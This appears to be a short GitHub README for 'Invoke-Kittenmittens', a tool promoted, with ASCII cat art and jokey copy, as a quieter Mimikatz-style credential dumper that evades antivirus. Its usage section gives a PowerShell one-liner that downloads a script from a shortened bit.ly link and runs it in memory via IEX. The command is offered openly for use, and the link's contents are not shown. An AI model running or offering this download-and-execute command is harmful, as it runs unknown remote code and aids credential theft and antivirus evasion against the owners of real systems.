 # Invoke-Kittenmittens
Quickly and quietly dump creds

```
                                     |-\
    ___  .  ,     __    _    .       \  \
     |   | /     |  \  / \  /|        |  |
     |   |/      |__/  \_    |        |  \
     |   |\      |       \   |        |  |
    _|_  | \  .  |     \_/  _|_       |  |
                                      |  |
      ___,                            /  /
 ---``    \_     ________---______   |  /
 \           ```                ```-/  /
  }                                    \
  {                                     \
    \ |                                 |
      |                                 |
      |                                 |
      |         _ ------ - ,           /
      /       /  \    |      -        /
     |      /     l   |       ` - _    \
     L__  /        \  |           \\__,L
    /   7           l`T            //  /
 ~``  /             | |          //`  /
{___,~             {__/          \\__/
```

Is your Mimikatz making too much noise all the time? Is your Mimikatz constantly stomping around and triggering AV? Think there's no answer? You're so stupid! There is! Invoke-Kittenmittens.

# Usage

Run Invoke-Kittenmittens in-memory via a single, condensed CMD command:
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2mgBLOs')"
```
